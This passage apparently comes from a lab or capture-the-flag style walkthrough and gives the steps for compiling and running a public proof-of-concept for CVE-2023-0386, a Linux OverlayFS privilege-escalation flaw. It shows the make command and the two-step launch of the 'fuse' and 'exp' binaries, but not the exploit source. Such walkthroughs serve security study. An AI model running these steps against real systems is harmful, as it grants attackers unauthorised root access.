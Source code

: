 As per the instructions on the GitHub page, enter the `CVE-2023-0386` directory and compile the code

```bash
cd /tmp/CVE-2023-0386/
make all
```

![img](./assets/exploit/CVE-2023-0386/make.png)


> **Note:** The compilation throws a few warnings but these can be safely ignored.

Finally, let's run the exploit in two steps. We run the first command in the background.

```bash
./fuse ./ovlcap/lower ./gc &
[+] len of gc: 0x3ee0
[1] 6153
```

Then we execute the exp binary in the foreground.

```bash
./exp
```
